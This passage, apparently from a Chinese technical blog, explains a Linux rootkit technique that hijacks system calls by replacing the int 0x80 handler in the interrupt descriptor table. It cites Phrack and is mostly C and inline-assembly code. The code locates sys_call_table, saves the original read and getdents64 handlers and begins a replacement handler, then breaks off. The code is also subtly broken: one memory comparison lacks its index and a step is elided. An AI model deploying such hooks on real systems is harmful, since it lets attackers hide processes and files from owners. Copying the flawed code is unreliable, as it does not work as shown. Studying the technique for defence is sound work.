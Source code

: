 对于 1)类型的rootkit相当于将系统调用的hook转移到了 对80中断的hook，具体可参考 [Rootkit Hacking Technology && Defence Strategy Research](http://www.cnblogs.com/LittleHann/p/3910696.html)   
以及  
[Phrack issue 59, article 0x04 (“Handling the Interrupt Descriptor Table”)](http://www.phrack.org/archives/issues/59/4.txt)  

相关代码如下：  
``` c

/*
1. 通过"中断寄存器"获取中断描述符表(IDT)的地址(使用C ASM汇编)
*/
asm("sidt %0":"=m"(idt48));
/*
2. 从中查找0x80中断("0x80中断"就是"系统调用中断")的服务例程(8*0x80偏移)
"中断描述符表(IDT)"中有很多项，每项8个字节，而第0x80项才是系统调用对应的中断
struct descriptor_idt
{
        unsigned short offset_low;
        unsigned short ignore1;
        unsigned short ignore2;
        unsigned short offset_high;
};
static struct 
{
        unsigned short limit;
        unsigned long base;
}__attribute__ ((packed)) idt48;
*/
pIdt80 = (struct descriptor_idt *)(idt48.base + 8*0x80);
system_call_addr = (pIdt80->offset_high << 16 | pIdt80->offset_low);
/*
3. 搜索该例程的内存空间，获取"系统调用函数表"的地址("系统调用函数表"根据系统调用号作为索引保存了linux系统下的所有系统调用的入口地址)
*/
for (i=0; i<100; i++)
{
    if (p=='\xff' && p[i+1]=='\x14' && p[i+2]=='\x85')
    {
        sys_call_table = *(unsigned int*)(p+i+3);
        printk("addr of sys_call_table: %x\n", sys_call_table);
        return ;
    } 
}
/*
4. 将sys_call_table作为基址，根据系统调用号作为索引，获取指定的系统调用的函数地址指针，因为我们通过劫持80中断进而达到系统调用劫持的目的后，还需要将代码控制流重新导向原始的系统调用
*/
orig_read = sys_call_table[__NR_read]; 
orig_getdents64 = sys_call_table[__NR_getdents64];
..
replace
..
/*
5. 直接替换IDT中的某一项，也就是我们需要通过代码模拟原本"系统调用中断例程(IDT[0x80])"的代码逻辑
*/
void new_idt(void)
{
        ASMIDType
        (
                "cmp %0, %%eax      \n"
                "jae syscallmala        \n"
                "jmp hook               \n"
                "syscallmala:           \n"
                "jmp dire_exit          \n"
                : : "i" (NR_syscalls)
```